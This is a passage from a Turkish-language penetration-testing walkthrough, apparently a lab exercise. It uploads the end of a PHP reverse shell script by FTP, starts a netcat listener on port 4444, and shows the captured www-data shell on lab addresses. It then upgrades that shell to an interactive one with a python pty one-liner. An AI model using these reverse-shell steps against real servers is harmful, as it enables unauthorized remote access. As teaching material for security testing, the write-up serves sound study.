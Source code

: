 ```php
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```
Şimdi bu kodu ftp ile karşı sisteme atacağım. Bunun için kullanacağınız araç size kalmış. Ben filezilla kullanıyorum. Karşı tarafa dosyayı attıktan sonra bir dinleme noktası oluşturalım.
<div align="center">
    <img src="dosyalar/ftp.png" style="width:100%;">
    <p>FTP</p>
</div>
```sh
nc -lvp 4444
```
Daha sonra karşı tarafta sayfayı tetikledikten sonra shell ekranı dönecektir.
```sh
listening on [any] 4444 ...
192.168.119.131: inverse host lookup failed: Unknown host
connect to [192.168.119.129] from (UNKNOWN) [192.168.119.131] 60512
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 13:43:31 up  1:13,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
www-data
$ 
```
Görüldüğü üzere shell döndü. Şİmdi etkileşimli shell'e geçelim...
```sh
$  python -c 'import pty; pty.spawn("/bin/bash")'      
www-data@ubuntu:/$ 
```
